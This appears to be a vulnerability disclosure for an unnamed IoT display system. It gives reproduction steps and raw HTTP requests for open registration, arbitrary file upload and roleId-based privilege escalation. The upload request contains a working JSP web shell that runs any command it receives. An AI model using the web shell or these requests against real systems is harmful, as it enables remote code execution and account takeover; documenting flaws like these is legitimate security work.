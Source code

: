 # XX-IoT-System
某XXIoT信息展示系统
<h1 id="PnHti">_<u>Vulnerability Overview: </u>_</h1>
| vulnerability Name  |
| --- |
| 1. Any user registration  |
| 2. Any file Upload  |
| 3. User Authority Promotion  |


---

<h1 id="d5VYs">_any User Registration _</h1>
cause of vulnerability: 

<font style="background-color:#F1A2AB;">improper access control to registration page, insufficient user input validation </font>

---

<font style="background-color:rgba(255, 255, 255, 0);">reproduction steps: </font>

1. Improper access control verification, direct access to the page 

![](https://cdn.nlark.com/yuque/0/2025/png/28521795/1743497865342-6d6af472-46c5-4d5f-ad60-7cab5e3c54c8.png)

2, the registration is successful 

![](https://cdn.nlark.com/yuque/0/2025/png/28521795/1743497699910-cead3c83-594a-47c6-994a-af38a65ed50d.png)

![](https://cdn.nlark.com/yuque/0/2025/png/28521795/1743502804077-d497301a-7b4c-4c8e-8b26-34234003da91.png)

```plain
POST /xx/xxxx/xxxxxxxxAccount.html HTTP/1.1
Host: 192.168.196.142:xxxx
Content-Length: 139
Cache-Control: max-age=0
Origin: http://192.168.196.142:xxxx
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
Connection: keep-alive

userName=kkl1233&userPassword=wuhuKKL%40123&userRePassword=wuhuKKL%40123&userPhone=19666666666&province=110000&city=110100&county=110101&submit=
```



---

<h1 id="d59sP">_upload any file _</h1>
cause of vulnerability: 

<font style="background-color:#F1A2AB;">insufficient file type validation </font><font style="background-color:rgba(255, 255, 255, 0);"></font>

---

reproduction steps: 

1, access the file upload point, use `Burp suite `grab the package and modify the file suffix and content. 

![](https://cdn.nlark.com/yuque/0/2025/png/28521795/1743500712015-35ebd1ab-ff90-439e-8208-90d5d249bb51.png)

By `"savePath" `can control the upload path 

![](https://cdn.nlark.com/yuque/0/2025/png/28521795/1743500421065-2ec6aab7-bd6c-486c-b44c-5d44a6d13665.png)

2. Access the malicious file address and execute arbitrary commands after the upload is successful 

![](https://cdn.nlark.com/yuque/0/2025/png/28521795/1743500927793-3340337f-ed54-44df-9923-856d626dcf24.png)

```plain
POST /xxxxxxx/upload/userfile.htm HTTP/1.1
Host: 192.168.196.142:xxxx
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary1Ny332LTTu9INsqE

------WebKitFormBoundary1Ny332LTTu9INsqE
Content-Disposition: form-data; name="savePath"

/resource
------WebKitFormBoundary1Ny332LTTu9INsqE
Content-Disposition: form-data; name="userId"

7
------WebKitFormBoundary1Ny332LTTu9INsqE
Content-Disposition: form-data; name="filedata"; filename="shell.jsp"
Content-Type: application/octet-stream

<%@ page language="java" import="java.io.*" %>
<%
String cmd = request.getParameter("c");
if (cmd != null) {
    out.println(new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A").next());
}
%>
------WebKitFormBoundary1Ny332LTTu9INsqE--
```

---

<h1 id="Jqvov">user privilege elevation </h1>
cause of vulnerability: 

the system's "* User rights verification *" uses only the roleid parameter to distinguish users with different rights (such as ordinary users and administrators). 

Reproduction steps:

![](https://cdn.nlark.com/yuque/0/2025/png/28521795/1743505276942-36e05d5d-c5a7-4168-9045-c825503cdcc4.png)

![](https://cdn.nlark.com/yuque/0/2025/png/28521795/1743505114427-20b72bbb-b990-4425-b588-c4a4d0354662.png)

1. Obtain self userId = 7 

![](https://cdn.nlark.com/yuque/0/2025/png/28521795/1743505159287-2c0a1fdb-0867-42bd-a180-327b899df3f0.png)

2. Directly send a request to modify roleId 

you need to modify your own cookies. 

![](https://cdn.nlark.com/yuque/0/2025/png/28521795/1743505444455-532c5230-2be1-4ee0-844f-9759db6d7d52.png)

View and modify successfully 

admin User View kkl123 

![](https://cdn.nlark.com/yuque/0/2025/png/28521795/1743505476426-b38a010c-0f9a-4843-bafc-3561f51af5f8.png)

kkl123 User Login

![](https://cdn.nlark.com/yuque/0/2025/png/28521795/1743505642442-a4553a49-d242-42cb-bd38-ca57691936ac.png)

```plain
POST /xx/xxxxxxxx/xxxx/allocation.html HTTP/1.1
Host: 192.168.196.142:xxxx
Content-Length: 17
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.196.142:xxxx
Cookie: JSESSIONID=cookie; DOMAIN_NAME=
Connection: keep-alive

userId=7&roleId=x
```

---


